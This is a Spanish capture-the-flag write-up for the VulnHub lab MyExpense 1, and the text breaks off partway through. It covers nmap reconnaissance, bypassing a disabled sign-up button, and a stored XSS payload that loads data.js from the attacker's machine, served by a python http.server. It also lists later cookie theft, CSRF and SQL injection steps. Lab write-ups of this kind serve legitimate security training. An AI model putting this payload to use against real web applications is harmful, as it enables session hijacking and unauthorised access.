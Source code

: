 ```yaml
---
layout: post
author: Isui Martinez
title: Writeup MyExpense 1 - Vulnhub (En redacción)
---
```

![Banner-MyExpense](/images/myexpense/banner-myexpense-vh.png "banner-myexpense1")
## My Expensive from VulnHub Spanish Writeup

#### Skills

* Web Enumeration
* Enabling disabled button in the user's registration form
* XSS (Cross-Site Scripting)
* CSRF (Cross-Site Request Forgery)
* XSS + JavaScript file in order to steal the user's session cookie
* XSS + CSRF in order to activate new registered users
* XSS Vulnerability in message management system
* Stealing session cookies with XSS vulnerability in message handling system
* Cookie Hijacking
* SQL Injection (Union Query Based)
* Cracking Hashes
* Logging in as the boss and sending us the corresponding money

## Escenario
Usted es "Samuel Lamotte" y acaba de ser despedido de su empresa "Furtura Business Informatique". Lamentablemente, debido a su salida apresurada, no tuvo tiempo de validar su informe de gastos de su último viaje de negocios, que todavía asciende a 750 € correspondientes a un vuelo de regreso a su último cliente. Temiendo que su antiguo empleador no quiera reembolsarle este informe de gastos, decide hackear la aplicación interna llamada "MyExpense " para gestionar los informes de gastos de los empleados.  Así estarás en tu coche, en el aparcamiento de la empresa y conectado a la red Wi-Fi interna (la llave aún no ha sido cambiada después de tu salida). La aplicación está protegida mediante autenticación de nombre de usuario/contraseña y espera que el administrador aún no haya modificado o eliminado su acceso.  Tus credenciales fueron: samuel/fzghn4lw  
Una vez finalizado el desafío, la bandera se mostrará en la aplicación mientras esté conectado con su cuenta (samuel).

#### Configuración del entorno de pruebas para VMware
Configurar la interfaz de red de para que pueda servir en VMware.
Entrar en modo edición con la letra `E`
Escribir el comando:
```
rw init=/bin/bash
```
Y pulsar `Enter`
![](/images/myexpense/Pasted image 20240602225819.png)
Y pulsar la combinación de teclas: ``Ctrl+X`
Luego revisar desde Kali si ha sido asignada la dirección IP.
Ahora de deben de configurar las tarea automatizadas, de Python, se ingresa al directorio OPT:
```
cd /opt
```

![](/images/myexpense/Pasted image 20240602230542.png)

Mediante la herramienta de Nano se van a editar todos los archivos
### Reconocimiento
La fase de reconocimiento en un entorno local como el de este ejemplo puede funcionar un trace ICMP, y también un escaneo con `arp-scan`:

![](/images/myexpense/Pasted image 20240602231258.png)

Se puede intuir que el dispositivo objetivo es el que tiene asignada la dirección IP `192.168.93.143`. La trace ICMP, nos indica que el tiempo de vida de respuesta del paquete, es de 64, lo que da indicios de ser un posible sistema Linux.
```
┌──(isui㉿kali)-[~]
└─$ ping -c 1 192.168.93.143
PING 192.168.93.143 (192.168.93.143) 56(84) bytes of data.
64 bytes from 192.168.93.143: icmp_seq=1 ttl=64 time=1.21 ms

--- 192.168.93.143 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.206/1.206/1.206/0.000 ms
┌──(isui㉿kali)-[~]
└─$ 
```

Se puede continuar con un escaneo directo al objetivo con la herramienta nmap, con el fin de encontrar posibles puertos abiertos para analizar vulnerabilidades:
```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.93.143 -oG puertos
```
![](/images/myexpense/Pasted image 20240602232216.png)

Se pueden extraer los puertos del escaneo, con one-liner que extrae los puertos hallados durante el escaneo y los copia a la clipboard:
```
grep -oP '\d+/open/tcp/\S+' puertos | cut -d '/' -f 1 | tr '\n' ',' | xclip -selection clipboard
```

![](/images/myexpense/Pasted image 20240602232831.png)

Luego de ello, se debe realizar un escaneo a cada puerto detectado, con el comando:

```
sudo nmap -sCV -p80,49733,59151,60855 -A 192.168.93.143 -oN objetivo
```

Se puede ver el escaneo directo en la terminal, con la herramienta cat, en este caso se utilizo batcat, pero solo es una cuestión visual, lo importante es poder ver la información:

![](/images/myexpense/Pasted image 20240602232952.png)

Se observa la versión de Apache corriendo en el puerto 80, corriendo un servicio HTTP.
Aun como parte del reconocimiento, se realiza un analisis de la herramientas que utiliza el servicio web con la herramienta whatweb:

```
whatweb http//192.168.93.143
```

![](/images/myexpense/Pasted image 20240602233613.png)

Se puede ver la versión del servidor Apache, el titulo del sitio. A continuación se enviará un ataque de fuerza bruta, con nmap, para listar todas las posibles rutas del sitio web:

```
sudo nmap --script http-enum -p80 192.168.93.143 -oN webScan
```

![](/images/myexpense/Pasted image 20240602234140.png)

Muestra información intersante, así como un archivo robots, el cual se puede visualizar con el comando:

```
curl -s -X GET http://192.168.93.143/robots.txt
```

![](/images/myexpense/Pasted image 20240602234444.png)

Ingresando a la Web, se puede observar un botón para un posible login:

![](/images/myexpense/Pasted image 20240602234610.png)

![](/images/myexpense/Pasted image 20240602234629.png)

En base al script de `nmap` de detecto la dirección `/admin/admin.php` :

![](/images/myexpense/Pasted image 20240604234223.png)

Se despliega una lista de los usuarios, nombres, correos, rol, y estado de su cuenta, en nuestro caso particular la cuenta de Samuel, se encuentra **inactiva**.
En base al escenario, y reconocimiento, se puede inferir que el usuario, ya que se cuenta desde el comienzo con la contraseña:

![](/images/myexpense/Pasted image 20240604234646.png)

Se procede a probar las credenciales para tener acceso al aplicativo:

![](/images/myexpense/Pasted image 20240604234740.png)

La validación de las credenciales parece ser correcta, pero indica que la cuenta ha sido bloqueada o inhabilitada por los administradores:

![](/images/myexpense/Pasted image 20240604234912.png)

Se observa que hay un formulario para registrar usuarios, lo que puede permitir ver como se realizan las peticiones al servidor cuando se ejecuta dicho formulario. Se observa que el botón de `Sing up!` se encuentra deshabilitado:

![[Pasted image 20240604235915.png]]
Este problema se puede resolver, desactivando el argumento `disabled` desde el código HTML:
![[Pasted image 20240605000119.png]]
Y la cuenta se puede crear correctamente:
![[Pasted image 20240605000322.png]]
Si se lista la nueva cuenta se puede observar:
![[Pasted image 20240605000421.png]]
## XSS
A continuación mediante la creación de una nueva cuenta, ejecutara un CSRF para intentar cargar un recurso externo:
```
<script src="http://192.168.93.132/data.js"></script>
```
El proposito de este recurso, primeto es no generar sospecha sobre el administrador, si es que este esta vigilando el trafico. Luego de ello que que el servidor http de la organización, interprete y ejecute el recurso en mi máquina.
![[Pasted image 20240605002810.png]]
Para validar que este tipo de ataque, es posible, dede la máquina del atacante, se levanta un servidor http, con python, que deberia registrar los intentos solicitudes para cargar el recurso `data.js`.
```
python3 -m http.server 80
```
![](/images/myexpense/Pasted image 20240605003232.png)

Se tuvo exito, y el ataque llevado a cabo, intenta que el servidor ejecute el recurso, que en este momento no existe.
Ahora, con paciencia, se busca que algun usuario del lado del servidor, revise constantemente la web, para capturar esas solicitudes:




